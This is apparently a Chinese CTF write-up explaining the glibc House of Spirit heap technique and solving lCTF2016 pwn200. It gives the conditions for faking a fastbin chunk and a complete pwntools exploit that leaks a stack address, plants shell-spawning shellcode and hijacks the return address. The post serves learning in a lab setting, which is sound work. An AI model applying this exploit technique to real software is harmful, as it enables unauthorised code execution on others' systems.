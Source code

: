 ```yaml
---
title: House of Spirit
date: '2025-02-21 11:00:53'
updated: '2025-04-07 21:39:55'
---
```

## 利用点
堆溢出、有栈地址

## 适用范围
2.23——至今

## 原理
利用堆溢出，修改 chunk size，伪造出 fake chunk，然后通过堆的释放和排布，控制 fake chunk。house of spirit 的操作思路有很多，比如可以按如下操作进行利用：

+ 申请 chunk A、chunk B、chunk C、chunk D
+ 对 A 写操作的时候溢出，修改 B 的 size 域，使其能包括 chunk C
+ 释放 B，然后把 B 申请回来，再释放 C，则可以通过读写 B 来控制 C 的内容

## 目的
劫持 fastbin/tcachebin 的 fd 之后，可以任意地址分配、任意地址读写

`fake_fast_chunk` 可以申请并且释放的条件：

1. fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理
2. fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
3. fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐
4. fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ，同时也不能大于av->system_mem 
5. fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况

## lCTF2016-pwn200
题目在 BUUCTF 有

跟着 [wp](https://www.cnblogs.com/haidragon/p/17016393.html) 看的，有两种解法，一种是直接改 free 的 got 表改成 shellcode 的地址，另外一种是通过 hos（house of spirit）来控制 rbp 附近的值，从而控制程序流到 shellcode

checksec 看了看：

![](/images/4c9b31e67c1cb75e201cc3be53920d54.png)

什么安全措施都没有

接着看 IDA

![](/images/24db857f48eae25394b653421d178ad5.png)

输入正好 48 个字节的话正好换行符没有被识别到，字符串结尾没有 \x00，后面的 printf 会直接把 rbp 的值给打印出来

![](/images/52d2e715858d6e250e6c8974a151e116.png)

输入的长度正好能把 dest 覆盖，而 dest 又会被赋给全局变量堆指针 ptr

所以这里可以控制到 ptr 的值从而 free 掉一个 fakechunk 进 fastbin 里面

fakechunk 可以在栈上伪造，因为前面能泄露出栈的地址

但是遇到了一件很奇怪的事情

正常来说按照函数调用的栈来说，栈应该是这样的：

![](/images/cdf37d6b0cf0af4ca44d83ebaa2b8150.png)

但是我实际动调发现居然是乱了的...

![](/images/c0e95e2977d988d6c27a2d5a3e45ba3f.png)

输入的 id 是字符串`32`，从截图里面可以看到，id 就在 dest（堆指针）低地址相邻，这对吗？

而且看了看下面的 shellcode 的位置，居然在 realmain 函数返回地址下面...

但是在修改了 ptr 到 fakechunk 的地址之后，能 free 掉，还能正常 malloc 出来修改，成功获得栈上返回地址的控制权

![](/images/0aaa620ef57978842d49aba5bdf7a379.png)

没搞懂的是为什么 id 在这里，动调发现 id 转化成整数之后放在了这里，可以用来伪造下一个 chunk 的 size

输入的 id 是一个字符串，`readandprintf`函数里面还调用了`atoi`函数把 id 转换成整数之后存在 id 栈上相邻的位置

其实 id 的值比较自由，只要符合 fastbin 的 chunk 大小就可以了

这下看明白了，

### 主要思路
先泄露 rbp 的值，得到栈上的地址，在泄露的同时把 shellcode 写到栈上，

然后再利用后面的 id 和读取的 money，构造一个 fakefastchunk 和下一个 chunk 的 size（fakefastchunk 能够控制到 rbp 和 realmain 函数的返回地址）

最后把 fakechunk 释放进 fastbin，再 malloc 申请出来修改返回地址然后选择退出从而执行到 shellcode

完整 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("node5.buuoj.cn",28828)
# link=process("./pwn200")

payload=asm(shellcraft.sh())
payload=payload.ljust(48,b'a')
link.send(payload)
rbp_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print('realmain_rbp_addr='+hex(rbp_addr))
shellcode_addr=rbp_addr-0x50
print('shellcode_addr='+hex(shellcode_addr))

link.recvuntil(b'id ~~?')
link.sendline(b'48')

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
# pause()

fakechunk_addr=rbp_addr-0x90
print(hex(fakechunk_addr))
fake_chunk = p64(0)*5
fake_chunk += p64(0x41)
fake_chunk += p64(0)
fake_chunk += p64(fakechunk_addr)

link.recvuntil(b'money~')
link.sendline(fake_chunk)

link.recvuntil(b'your choice : ')
link.sendline(b'2')

link.recvuntil(b'your choice : ')
link.sendline(b'1')
link.recvuntil(b'how long?')
link.sendline(b'48')

payload=b'a'*0x18+p64(shellcode_addr)
link.recvuntil(b'money : ')
link.sendline(payload)

link.recvuntil(b'your choice : ')
link.sendline(b'3')

link.interactive()
```

### 总结
主要就是要在目的内存附近伪造 fakechunk（也可以是堆溢出覆盖到下一个 chunk 的 fd），释放进 bin 里面再申请出来从而获得这一段内存的控制权，可以是 hook 函数、栈上的数据或者函数返回地址...


